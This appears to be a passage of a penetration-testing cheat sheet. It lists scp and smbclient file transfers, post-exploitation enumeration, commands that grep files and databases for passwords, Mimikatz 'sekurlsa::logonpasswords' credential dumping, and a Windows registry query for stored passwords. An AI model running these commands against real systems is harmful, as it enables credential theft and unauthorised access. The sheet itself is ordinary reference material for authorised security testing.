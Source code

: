 ### scp
```bash
scp user@target.com:/path/to/file ./
scp file.txt user@10.10.10.10:/tmp/
```

### smbclient
```bash
smbclient \\10.10.10.10\share -U guest
```

---

## Post Exploitation

### Enumeration
```bash
whoami
ip a
netstat -tulnp
```

### Passwords in Memory
```bash
grep -i pass /etc/*
strings *.db | grep password
```

### Credential Dumping (Windows)
```powershell
mimikatz.exe
sekurlsa::logonpasswords
```

---

## Useful Commands: Windows & Linux

### Linux
```bash
id
whoami
hostname -I
uname -a
df -h
```

### Windows
```cmd
systeminfo
net users
whoami /priv
reg query HKLM /f password /t REG_SZ /s
```

---
